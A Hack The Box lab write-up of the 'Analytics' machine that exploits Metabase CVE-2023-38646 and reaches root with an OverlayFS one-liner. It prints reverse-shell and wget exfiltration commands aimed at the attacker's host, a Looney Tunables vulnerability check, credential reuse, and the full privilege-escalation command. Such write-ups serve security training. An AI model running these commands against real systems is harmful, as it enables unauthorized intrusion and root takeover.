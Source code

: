 ```yaml
---
tags:
  - linux
---
```

# HTB: [Analytics](https://app.hackthebox.com/machines/Analytics)

> [!tip]- Summary with Spoilers
> 1. **Metabase Pre-Auth RCE (CVE-2023-38646)**
> I discovered a public exploit for Metabase, which allowed me to run commands without authentication. After compiling the Rust PoC, I got a reverse shell by leveraging `busybox nc` within the container’s Alpine environment.
>
> 2. **Obtaining Credentials**
   Once I had shell access as the `metabase` user, I found environment variables containing `metalytics` account credentials. I reused those credentials via SSH to gain a stable foothold as `metalytics` and retrieved the user flag.
>
> 3. **OverlayFS Exploit for Privilege Escalation**
   The server kernel was vulnerable to OverlayFS (CVE-2023-2640 / CVE-2023-32629). I used a one-liner exploit that granted me `root` privileges, letting me read the root flag.

## Enumeration

```console
$ nmap -n -sCV -T4 -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 14:34 CST
Nmap scan report for 10.10.11.233
Host is up (0.21s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.15 seconds
```

Port 80 redirects to host `analytical.htb`, so I added that to `/etc/hosts`.

The page had a "Login" button, which redirected to `data.analytical.htb`, so I also added that to `/etc/hosts`.

<http://data.analytical.htb/auth/login>:

![](_/htb-analytics-20231010-1.png)

## Exploitation

[Metabase](https://www.metabase.com/) has a recent [pre-auth RCE](https://github.com/joaoviictorti/CVE-2023-38646) vulnerability.

`"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`

There is a [PoC for the vulnerability](https://github.com/joaoviictorti/CVE-2023-38646) available, but it's in Rust and I had some trouble getting it to compile on Kali.

The version of `cargo` on Kali is currently 1.65.0, which wasn't sufficient for the PoC, so I installed version 1.73.0 in userspace. Still, it complained about an error with the OpenSSL depency. To fix that, I added this to the `[dependencies]` section of `Cargo.toml`:

```console
openssl = { version = "0.10", features = ["vendored"] }
```

I started a `nc` listener on port 443 and tried the exploit:

```console
$ cargo run -- --url http://data.analytical.htb --command 'nc 10.10.16.5 443 -e sh'
    Finished dev [unoptimized + debuginfo] target(s) in 1.25s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'nc 10.10.16.5 443 -e sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

The exploit completes, however the listener sees a connection that immediately exits.

I was able to do some slow and awkward recon by passing simple commands to `wget` where I could view the results via Python3 `http.server`:

```console
$ cargo run -- --url http://data.analytical.htb --command 'wget http://10.10.16.5:8888/`whoami`'
```

And on the server:

```console
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.233 - - [10/Oct/2023 10:53:38] code 404, message File not found
10.10.11.233 - - [10/Oct/2023 10:53:38] "GET /metabase HTTP/1.1" 404 -
```

Via that method, I was able to determine the box was running [Alpine Linux](https://www.alpinelinux.org/) in a relatively minimal environment. That information is also discoverable via the [Metabase dockerfile](https://github.com/metabase/metabase/blob/master/Dockerfile), if you know where to look.

Eventually I discovered that running the commands via `busybox` solved the problem:

```console
$ cargo run -- --url http://data.analytical.htb --command 'busybox nc 10.10.16.5 443 -e busybox sh'
    Finished dev [unoptimized + debuginfo] target(s) in 0.06s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'busybox nc 10.10.16.5 443 -e busybox sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

And on the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.233] 35149
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

There are some interesting files in the container, notably `metabase.db.mv.db`, which (I think) is the H2 database to bootstrap the application. I transferred it and the `jar` file for the app (`/app/metabase.jar`) to my machine using `nc`. Running `strings` on the database turned up a user login and password hash:

```text
metalytics@data.htbJJohnnyISmith
<$2a$10$HnyM8[...]
```

I started `john` with `rockyou.txt` but ultimately never recovered the password, but I didn't need it, because the environment had what I needed:

```console
env | grep META
META_PASS=An4lyt[...]
META_USER=metalytics
```

Thanks to password-reuse I was able to login to the target:

```console
$ ssh metalytics@$t
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
[...]

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41

metalytics@analytics:~$ cat user.txt
1face9[...]
```

## Escalation

### Looney Tunables?

```console
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

metalytics@analytics:~$ cat /etc/issue
Ubuntu 22.04.3 LTS \n \l
```

This host appears vulnerable to the [Looney Tunables buffer overflow](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt), an vulnerability exploitable via the `GLIBC_TUNABLES` environmental variable.

[CrowdSec has a nice write-up](https://www.crowdsec.net/blog/detect-looney-tunables-exploitation-attempts), which includes a way to verify that the host is vulnerable:

```console
metalytics@analytics:~$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

A [PoC is available for the Looney Tunables bug](https://github.com/RickdeJager/CVE-2023-4911), but this target doesn't have `gcc` and it's not the cleanest exploit; i.e., it takes five minutes to complete on Ubuntu.

But there's a quicker option.

## OverlayFS Exploit

The target is vulnerable to [CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) and [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629). The exploit is a one-liner:

```console

metalytics@analytics:/tmp/t$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("sh")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
## id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
## cat /root/root.txt
127e2e[...]
```
